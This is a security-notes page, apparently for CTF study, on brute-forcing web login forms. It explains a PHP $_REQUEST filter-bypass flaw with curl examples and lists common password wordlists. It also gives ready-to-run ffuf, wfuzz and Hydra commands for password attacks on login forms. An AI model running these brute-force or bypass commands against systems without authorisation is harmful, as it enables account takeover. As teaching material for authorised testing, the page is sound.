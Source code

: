 # Bruteforce forms, and other vulnerabilities

<div class="row row-cols-md-2"><div>

There are two kinds of forms: **GET forms**, in which the parameters of the form are stored within the URL, and anyone opening the URL, will see the form filled with the same input. For instance, a search engine such as Google has a parameter `q` (query) in which the search I made `(hello world)` was stored in.

```
https://www.google.com/search?q=hello+world
https://www.google.com/search?q=hello%20world
```

Search are URL-encoded as a URL is a long suite of characters with no spaces, for instance, space would be either `%20`, or `+`.
</div><div>

Then, we have **POST forms**. They are mostly used for logins/... Once the user submit data, then its encoded, and sent to the server. Even if we have the same URL, the page will be empty for us.

```
https://example.com/login.php
```

The common point between the two are that the data transferred is looking like this: `username=toto&password=toto`, and in both, it's URL-encoded.
</div></div>

> **Note**: BurpSuite can be used too, see the Intruder tab.<br>

<hr class="sl">

## Logic Flaw

[![authenticationbypass](../../../_badges/thmp/authenticationbypass.svg)](https://tryhackme.com/room/authenticationbypass)

<div class="row row-cols-md-2"><div>

In PHP, there is a variable `$_POST` to fetch the input fields send to the server using POST, and `$_GET` for input fields send using GET. There is another prefilled variable: `$_REQUEST` which contains both values in `$_GET`, and values in `$_POST`. 

If a value is both in `$_POST`, AND `$_GET`, then ONLY the value in `$_POST` will be kept. This is worth mentioning, because

* a developer might use `$_REQUEST` for a GET form, instead of `$_GET`. In such case, we may be able to inject data using POST, so that even if the data send using GET is filtered, we may bypass these filters.

```bash
$ curl 'URL?param=value' -d 'param=not_filtered'
# the dev filter $_GET: filterXXX($_GET)
# but in $_REQUEST['param'], there will be
# our value 'not_filtered'
```
</div><div>

* it's possible that a developer is using a GET form, then a POST form. In such scenario, the (lazy?) developer may use `$_REQUEST` to fetch values. If the dev checked the data at step1, but not at step2, we may be able to bypass the check in step1.

```bash
$ curl 'URL/step1?param=verified'
# the dev ensure param is verified
# verify_or_reject_param($_GET)
# now, the dev may "trust" param to be valid
$ curl 'URL/step2?param=verified' -d 'xxx=yyy&param=unverified'
# the dev filter $_POST: filterXXX($_POST)
# the dev uses $_REQUEST['param']
# but, it's our unverified value that is used
```
</div></div>

<hr class="sr">

## Wordlists

<div class="row row-cols-md-2"><div>

* package wordlist

```
/usr/share/wordlists/rockyou.txt
/usr/share/wordlists/fasttrack.txt
/usr/share/wordlists/dirb/others/best1050.txt
/usr/share/wordlists/dirb/others/best110.txt
/usr/share/wordlists/dirb/others/best15.txt
```

</div><div>

* package seclists 📌

```
$ ls /usr/share/seclists/Passwords/
2020-200_most_used_passwords.txt
darkc0de.txt
darkweb2017-top10000.txt
$ ls /usr/share/seclists/Passwords/Common-Credentials
10k-most-common.txt
10-million-password-list-top-1000000.txt
$ ls /usr/share/seclists/Usernames/
xato-net-10-million-usernames.txt
```
</div></div>

> CTF are usually using `/usr/share/wordlists/rockyou.txt`, and a manually created list of usernames if needed.

<hr class="sl">

## Bruteforce using ffuf

[See fuzzing/ffuf for more information](../fuzz/index.md#ffuf---fuzz-faster-u-fool)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ ffuf -w wordlist -u URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ ffuf -w wordlist -X POST -d "username=admin&pass=FUZZ" URL/login.php
$ ffuf -w wordlist1:W1,wordlist2:W2 -X POST -d "username=W1&password=W2" -u URL
```
</div></div>

<hr class="sr">

## Bruteforce using wfuzz

[See fuzzing/wfuzz for more information](../fuzz/index.md#wfuzz---web-application-fuzzer)

<div class="row row-cols-md-2"><div>

Try to bruteforce a GET form.

```bash
$ wfuzz -w wordlist URL/account?id=FUZZ
```
</div><div>

Try to bruteforce a POST form.

```bash
$ wfuzz -w wordlist -d "username=admin&pass=FUZZ" URL/login.php
```
</div></div>

<hr class="sl">

## Bruteforce authentication forms using Hydra

<div class="row row-cols-md-2"><div>

Hydra is mostly used to bruteforce services, but it can also be used with authentication forms.

```bash
$ hydra -l toto -P wordlist URL http-post-form "/login.php:username=^USER^&password=^PASS^:F=incorrect" -V
```

<p class="mt-3">The request that we will bruteforce is something like this</p>

```none
username=toto&password=xxx
```
</div><div>

This command will

* Attack the form located at `URL/login.php` <small>(the `/login.php`)</small>
* Set the field with the name "username" with "toto"
* Set the field with the name "password" with every entry in the wordlist, on by one
* Consider comme failures (`-F`) any web page that returns the word "incorrect"

You should check the [bruteforce services](/cyber/exploitation/services/bruteforce.md) page to learn more about Hydra.
</div></div>